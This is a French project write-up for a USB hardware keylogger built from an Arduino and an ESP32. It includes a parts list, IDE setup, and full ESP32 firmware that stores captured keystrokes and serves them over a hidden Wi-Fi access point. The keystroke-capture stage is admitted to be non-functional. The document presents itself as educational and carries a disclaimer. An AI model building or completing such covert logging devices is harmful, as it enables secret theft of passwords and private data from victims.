

# USB Keylogger

- **Ce projet**
    
    ### But du projet
    
    Nous avons travaillé pendant 1 an sur ce projet de Keylogger USB. C’est un dispositif branché entre le clavier et l’ordinateur. Il capture les frappes au clavier sur le système cible, les enregistre dans un fichier de log et créer un signal wifi sur lequel il est possible de télécharger ce fichier. 
    
    
    
    ### Disclaimer
    
    L’utilisation de keyloggers pour capturer des données personnelles sans un consentement préalable est illégal et n’est pas éthique. Ce projet a été partagé dans un but éducatif et démonstratif. Nous nous opposons à une utilisation illégal de ce projet. Utilisez ce projet de manière responsable.
    
    ### Mention légale
    
    Les auteurs de ce projet ne sont pas responsables pour toute mauvaise utilisation ou dégats causés par the dispositif. L’utilisation des keyloggers sans autorisation est illégale. Soyez informés des lois et régulations avant d’utiliser ce projet.
    
    ### Schéma du projet
    
    
    
    ### Déploiement et démonstration
    
    Vous pouvez vous référer à cette vidéo en anglais que nous avons préparé pour suivre le déploiement de notre projet ainsi qu’une démonstration : 
    
    [https://www.youtube.com/watch?v=6H2IYctqQFU](https://www.youtube.com/watch?v=6H2IYctqQFU)
    
- **Matériel nécessaire**
    
    Afin de mener à bien ce projet, il est nécessaire de se munir d’une certaine quantité de matériel. 
    
    Ceux ci sont généralement peu cher. Vous pouvez les trouver facilement sur Amazon avec les estimations de prix ci-dessous. Ces composants sont encore moins cher si vous les commander sur des sites comme AliExpress (les temps de livraisons sont cependants plus élevés).
    
    | Composant | Utilité | Estimation de prix |
    | --- | --- | --- |
    | ESP32 | Création du WIFI
    Web serveur | ~ 10 € |
    | Arduino nano | Utilisé dans le cadre de ce projet. Pour mener à bien ce projet il est préférable d’acheter un arduino pro mini | ~ 9 € |
    | Arduino Pro mini | Version d’un arduino censé fonctionner correctement pour mener à bien ce projet (il n’a pas été testé). | ~ 9 € |
    | USB Host Shield Mini | Dispositif censé être connecté au clavier de la victime. Il permet de décoder le protocole USB. | ~ 7 - 10 € |
    | Kit de démarrage arduino | Il contient un ou des breadboard, des cables, des résistances. | ~ 10 € |
    | Connecteur USB mâle | Utilisé pour envoyer les touches à l’ordinateur de la victime | ~1 € |
    | TOTAL |  | ~50€ |
- **Préparation de l’environnement Arduino**
    
    ### Choix de la version d’éditeur (IDE)
    
    Nous avons besoin d’ajouter des fichiers sur l’ESP32, cependant comme on peut le voir sur ce site : [https://randomnerdtutorials.com/install-esp32-filesystem-uploader-arduino-ide/](https://randomnerdtutorials.com/install-esp32-filesystem-uploader-arduino-ide/)
    
    Le plugin de téléchargement de fichier sur l’ESP32 n’est plus supporté sur la version 2.0 de l’éditeur Arduino. Il faut donc choisir une version antérieure pour être sûrs de pouvoir utiliser cette version.
    
    ### Installation de l’IDE
    
    Sur le site officiel d’arduino : [https://www.arduino.cc/en/software](https://www.arduino.cc/en/software)
    
    Télécharger la version 1.8.9 de l’IDE : 
    
    
    
    Une fois l’utilitaire téléchargé, il faut dérouler la procédure d’installation.
    
    ### Configuration de l’IDE
    
    Par défaut, l’IDE ne prend pas en charge le développement sur ESP, ainsi il ne s’affichera pas ici dans Outils > Type de carte.
    
    
    
    Afin de le faire apparaître il faut ajouter cette ligne dans Fichier > Préférences : 
    
    `https://raw.githubusercontent.com/espressif/arduino-esp32/gh-pages/package_esp32_index.json`
    
    
    
    On peut aussi noter dans cet onglet des préférences `l’emplacement du carnet de croquis` aussi appelé `Sketchbook` en anglais. On va ici ajouter des librairies externes ou des plugins externes qui nous serons nécessaires.
    
    Ainsi, on crée dans ce dossier 2 sous-dossiers : `Libraries` et `tools`
    
    
    
    Dans le dossier `tools`, on va pouvoir créer un dossier `ESP32FS`. Dans ce dernier, on a créé un dossier `tool` qui contiendra le code de du plugin à intégrer dans l’IDE
    
    
    
    Ce plugin est `l’ESP32 Filesystem Uploader Plugin` qui permet de déposer des fichiers autre que le code principal de l’application sur la mémoire Flash de l’ESP. Le code de ce plugin est disponible ici : 
    
    [https://github.com/me-no-dev/arduino-esp32fs-plugin/releases/](https://github.com/me-no-dev/arduino-esp32fs-plugin/releases/)
    
    Il suffit de télécharger le package zippé `ESP32FS-1.1.zip`.
    
    
    
    Ensuite il faut déposer le contenu de cette archive (le fichier esp32fs.jar spécifiquement) à l’endroit indiqué précédemment.
    
    On a donc maintenant l’outil `ESP32 Sketch Data Upload` de disponible.
    
    
    
    ### Utilisation de l’outil Sketch Data upload
    
    Pour utiliser cet outil il faut créer un dossier qui aura le même nom que le fichier `arduino` de code de l’application principale. Une fois ce dossier créé, on peut y ajouter notre fichier principal, ici le `wifi_interface_web_old.ino` et créer un dossier `data`
    
    
    
    Ce dossier data contient toutes les ressources qui doivent être stockées dans la mémoire flash de l’ESP32.
    
    Ainsi dans cet exemple, ce dossier contiendra les ressources suivantes : 
    
    
    
    En utilisant l’outil (Outils > ESP32 Sketch Data upload) on peut voir que les fichiers sont bien téléversés sur l’ESP32 : 
    
    
    
    
    
- **Création du Wifi sur l’esp32**
    
    Il faut tout d’abord intégrer la librairie wifi comme suit: 
    
    ```arduino
    // Load Libraries
    #include <WiFi.h>
    ```
    
    Ensuite intégrer les informations sur le Wifi que l’on va générer : 
    
    ```arduino
    // Network informations
    const char* ssid     = "Keylogger";
    const char* password = "123456789";
    ```
    
    On peut maintenant configurer les informations du Wifi dans la fonction `setup()`: 
    
    ```arduino
    WiFi.softAP(ssid, password,13,1,1);
    ```
    
    La fonction softAP est construite comme suit
    
    ```arduino
    softAP(const char* ssid, const char* password, int channel, int ssid_hidden, int max_connection)
    ```
    
    Ainsi les différents paramètres qui rentrent en compte sont : 
    
    - `Ssid` : Nom du réseau et d’une longueur maximum de 63 caractères
    - `Password` : 8 caractères minimum ou mit à NULL si aucun mot de passe n’est requis
    - `Channel` : Le numéro du channel sur lequel le wifi sera
    - `Ssid_hidden` : Ce paramètre prend soit la valeur 0 si le SSID est affiché ou 1 si le SSID est caché (Il faut donc connaître le SSID en plus du mot de passe pour se connecter au réseau).
    - `Max_connection` : Nombre de connexions simultanées maximum (de 1 à 4). Si le nombre maximum est déjà atteint, alors une personne souhaitant se connecter devra attendre qu’une place se libère.
    
    Il est aussi possible de configurer l’adresse IP du wifi, chose que nous ne faisons pas ici.
    
    Par défaut le Wifi est généré sur l’IP `192.168.4.1`.
    
    ### Problèmes sur la création du wifi
    
    Le premier problème est le chiffrement utilisé par l’ESP32 quand il est configuré en tant que point d’accès (créateur de Wifi).
    
    En effet, il ne supporte pas le WPA3. Et utilise par défaut le chiffrement TKIP.
    
    Il est probablement possible d’utiliser le WPA2-PSK qui est plus sécurisé car il se base sur AES, il peut être configuré comme suit : 
    
    ```arduino
    // Enable WPA2-PSK encryption with a pre-shared key
    WiFi.softAPsetEncryption(WIFI_AUTH_WPA2_PSK, "MyPSKPassword"); //not working
    ```
    
- **Développement du site web**
    
    Comme le Wifi créé n’a pas d’accès à internet, il faut que toutes les librairies soient téléchargés en local. Aucun lien vers des sites web ne peut être effectué.
    
    On sépare le développement de notre site en plusieurs fichiers : 
    
    - index.html qui sera le centre du site
    - style.css, la feuille de style principale
    - Tous les fichiers des librairies chargées localement.
    
    De plus, le site web doit récupéré les informations récupérées par l’arduino
    
- **Intégration du site web à l’ESP32**
    
    L’intégration de base de du site web à l’ESP 32 prévoit que le code html/css/js soit intégré directement dans le code principal de l’application. Cela complique le développement, la clarté du code du site et la clarté du code de l’application.
    
    On a donc décidé de se tourner vers des fichiers séparés.
    
    Comme précisé dans le chapitre `Utilisation de l’outil Sketch Data upload` vu précédemment, on place les ressources de l’interface web dans un dossier `data`et les téléverser dans l’ESP avec l’IDE.
    
    Il nous faut maintenant utiliser plusieurs librairies : 
    
    - `SPIFFS` (Serial Peripheral Interface Flash File System) : Librairie qui permet d’interagir avec le système de fichiers de l’ESP32 (récupérer un fichier par exemple).
    
    Il faut maintenant pouvoir utiliser ces fichiers, pour cela on utilise la librairie `SPIFFS` (SPI Flash File System). 
    
    De plus pour pouvoir utiliser ces fichiers grâce à la librairie `SPIFFS`, il faut créer un serveur web asynchrone.
    
    La librairie SPIFFS est native à l’ESP32, mais les librairies nécessaires au fonctionnement du serveur asynchrone sont à télécharger et ajouter sur le composant.
    
- **Code final de l’ESP32**
    
    ```c
    // Load Libraries
    #include <WiFi.h>
    #include "ESPAsyncWebServer.h"
    #include <SPIFFS.h>
    
    // Pin (Reader) of the serial communication with arduino.
    #define RXp2 16
    
    // Network informations
    const char* ssid     = "Keylogger"; // SSID of the Access Point
    const char* password = "123456789"; // Password of the Access Point
    const int channel_number = 13; // Channel on which the wifi is spreaded
    const int hidden_ssid = 1; //The SSID is hidden when the value is equal to 1.
    const int maximum_connection = 1; // The maximum number of client that can be connected at the same time to the Access Point
    
    // Path to data file
    const char* path = "/exfiltrated_data.txt";
    
    // Set asynchronous web server port number to 80
    AsyncWebServer server(80);
    
    // Function to Write exfiltrated data to a file stored on SPIFSS
    void writeFile(const char * path, String message){
        Serial.printf("Writing file: %s\r\n", path);
        // Open the file with the mode FILE_APPEND to add data and not to erase all before writing in it
        File exfiltrated_data_file = SPIFFS.open(path, FILE_APPEND);
        if(!exfiltrated_data_file){
            Serial.println("- failed to open file for writing");
            return;
        }
        if(exfiltrated_data_file.print(message)){
            Serial.println("- file written");
        } else {
            Serial.println("- write failed");
        }
        exfiltrated_data_file.close();
    }
    
    void setup() {
      // Definition of the serial port/rate
      Serial.begin(115200);
      Serial2.begin(9600, SERIAL_8N1, RXp2);
      
      
      // Connect to Wi-Fi network with variables defined before
      Serial.print("Setting AP (Access Point)…");
      WiFi.softAP(ssid, password,channel_number,hidden_ssid,maximum_connection);
    
      //Access point specification about IP address
      
      IPAddress IP = WiFi.softAPIP();
      Serial.print("AP IP address: ");
      Serial.println(IP);
    
      //Verification to be sure that the SPIFFS is correclty started
      if (!SPIFFS.begin(true)) {
        Serial.println("An error has occurred while mounting SPIFFS");
        return;
      }else{
        Serial.println("Correctly mounting SPIFFS");
      }
    
      // Definition of the routes used by the webserver
      
      // Route for root / web page
      server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(SPIFFS, "/index.html");
      });
      
      // Route to load style.css file
      server.on("/style.css", HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(SPIFFS, "/style.css", "text/css");
      });
      // Route to load index.js file
      server.on("/index.js", HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(SPIFFS, "/index.js");
      });
      // Route to load jspdf library
      server.on("/jspdf.js", HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(SPIFFS, "/jspdf.js");
      });
      // Route to load html2canvas library
      server.on("/html2canvas.js", HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(SPIFFS, "/html2canvas.js");
      });
      // Route to load the keylogger image (png)
      server.on("/keylogger.png", HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(SPIFFS, "/keylogger.png");
      });
      // Route to load exfiltrated data on the webserver
      server.on("/getData", HTTP_GET, [](AsyncWebServerRequest *request)
      {
        request->send(SPIFFS, "/exfiltrated_data.txt");
      });
      
      server.begin();
    }
    
    void loop(){
      // If something is transmitted to the ESP through serial, then write it to the file
      if(Serial2.available()){
        writeFile(path,Serial2.readString());
      }
    }
    ```
    
- **Arduino - Récupération des touches au clavier**
    
    Cette partie du projet ne fonctionne malheureusement pas comme souhaité.
    
    En effet, malgré nos efforts, nous n’avons pas réussi à récupérer les touches au clavier avec notre arduino nano. Ce sujet est très peu documenté sur internet. Peu de personnes y font référence et ils n’expliquent pas leur projet, ni leurs sources. 
    
    Initialement, nous pensions récupérer les touches seulement avec l’arduino nano et un embout USB femelle auquel serait branché un clavier USB. Cependant, dans la pratique, cela ne fonctionne pas. En effet, le protocole USB est assez complexe et tous les arduinos ne peuvent pas le décoder si facilement. 
    
    C’est à ce moment que nous nous sommes rendus compte qu’il nous fallait nous procurer des USB Host Shield mini qui permettent de traiter le protocole USB et de le transmettre à l’arduino. 
    
    
    
    En liant l’arduino nano et l’Usb host shield mini, nous avons essayé de récupérer les informations tapées au clavier. Sans succès.
    
    En creusant encore plus nos recherches, nous nous sommes aperçus que l’USB Host Shield Mini semble fonctionner parfaitement avec l’arduino pro mini. Il sont censés s’imbriquer l’un dans l’autre parfaitement. 
    
    
    
    N’ayant pas pu nous procurer ce composant à temps, nous laissons des pistes de réflexion pour mener à bien la fin de ce projet.
    
    Nous avons placé plusieurs liens dans la section ressource vers les vidéos / tutoriels permettant de faire le lien entre l’arduino pro mini et l’usb host shield mini. L’utilisation de la librairie https://github.com/felis/USB_Host_Shield_2.0 est nécessaire d’après plusieurs de ces tutoriels. 
    
    Nous avons placé un code censé fonctionner pour l’arduino pro mini dans le dossier CODE de notre Github.
    
- **Arduino - code de démonstration**
    
    Nous avons préparé un code simple pour simuler la capture des touches tapées au clavier. Il consiste juste en l’écriture de caractères en série, de ce fait, l’ESP32 pourra capter et enregistre ces données. 
    
    Voici le code de cette partie : 
    
    ```c
    void setup() {
      Serial.begin(9600);
    }
    void loop() {
      delay(60000);
      Serial.println("Motdepasse123!");
      delay(10000);
      Serial.println("K");
      delay(10000);
      Serial.println("e");
      delay(10000);
      Serial.println("y");
      delay(10000);
      Serial.println("l");
      delay(10000);
      Serial.println("o");
      delay(10000);
      Serial.println("g");
      delay(10000);
      Serial.println("g");
      delay(10000);
      Serial.println("e");
      delay(10000);
      Serial.println("r");
      delay(60000);
    }
    ```
    
- **Transmission de données entre l’Arduino et l’ESP32**
    
    Une fois les touches récupérées sur l’Arduino, il est nécessaire de les transférer à l’ESP.
    
    Le web est plutôt documenté sur cette partie, alors il est possible de suivre des tutoriels, nous avons sélectionné les suivants :
    
    - [Serial Communication Between Arduino and ESP32 CAM](https://www.programmingboss.com/2023/01/serial-communication-between-arduino-and-esp32-CAM-UART-data-communication.html)
    - [How to Exchange Data between Arduino and ESP32 using Serial Communication?](https://www.programmingboss.com/2021/04/esp32-arduino-serial-communication-with-code.html)
    
    Ces tutoriels expliquent les notions suivantes :
    
    Il est possible de transférer des données entre Arduino et ESP en utilisant les ports série.
    
    Ces ports utilisent le protocole UART (Universal Asynchronous Receiver Transmitter) et permettent de faire transiter facilement des informations entre des composants électroniques. Ces ports séries sont généralement représentés par paire :
    
    - Le port RX (Receiver) permet de recevoir des informations
    - Le port TX (Transmitter) permet d’émettre des informations
    
    Comme nous ne voulons qu’envoyer des informations dans le sens Arduino → ESP (envoyer les touches), il n’est nécessaire que de connecter le port TX de l’Arduino au port RX de l’ESP.
    
    Cependant, il n’est pas possible de directement faire ce branchement sans endommager les composants. En effet, l’Arduino fonctionne sur 5V et l’ESP sur 3.3V. Il est donc nécessaire de diminuer la tension avant la réception des informations par l’ESP.
    
    Pour calculer la valeur des résistances, il est possible de faire un *voltage divider circuit*. C’est un circuit qui consiste en 2 résistances connectées en série. Au centre des 2 résistances se trouve la tension de sortie recherchée, comme expliqué dans le schéma ci-contre. La tension au centre des résistances est donnée par le calcul ci-dessous :
    
    
    
    Avec :
    
    - R1=10K
    - Vin=5V
    - Vout=3,3V
    
    
    
    En résolvant l’équation, on trouve R2=20K, ce qui donne le schéma ci-dessous :
    
    
    
    Nous avons utilisé 2 résistances 10K pour R2 en raison d’un manque de résistance 20K.
    
    Il suffit par la suite de définir un baud commun, dans notre cas 9600. Du côté arduino, il écrira les informations exfiltrées sur le baud 9600. Pour sa part, l’ESP devra spécifier le pin sur lequel il reçoit les données en série ainsi que le baud.
    
    Note : Le Baud est une unité de mesure de vitesse de transmission (exprimée en bits par secondes).
    
    La valeur 9600 a été définie par défaut, il sera intéressant d’évaluer par la suite l’impact en termes de performances d’une valeur plus élevée.
    
- **Conclusion**
    
    Ce projet n’est pas complet. Il n’est pas fonctionnel. Il manque la partie récupération des touches du clavier. Comme expliqué précédemment, il ne semble pas possible de réaliser cela avec un arduino nano. Cependant, plusieurs ressources présentes sur Internet indiquent que l’USB Shield Host mini fonctionne très bien avec l’arduino pro mini. Ces 2 composants sont de taille égale et peuvent s’imbriquer l’un dans l’autre parfaitement.
    
    Nous laissons donc des pistes de réflexion qui pourront permettre à une personne intéressée de finir ce travail. 
    
    N’hésitez pas à nous faire tout retour si vous avez des questions.
    
    Nous sommes également intéressés si vous avez réussi à faire fonctionner tout cela avec un arduino pro mini.
    
- **Ressources**
    
    
    | Url |
    | --- |
    | https://randomnerdtutorials.com/esp32-web-server-spiffs-spi-flash-file-system/ |
    | https://randomnerdtutorials.com/install-esp32-filesystem-uploader-arduino-ide/ |
    |  |
    | https://www.programmingboss.com/2023/01/serial-communication-between-arduino-and-esp32-CAM-UART-data-communication.html |
    | https://www.youtube.com/watch?v=t8MZhL0RjFc |
    | https://circuitsathome.com/usb-host-shield-for-arduino-pro-mini/ |
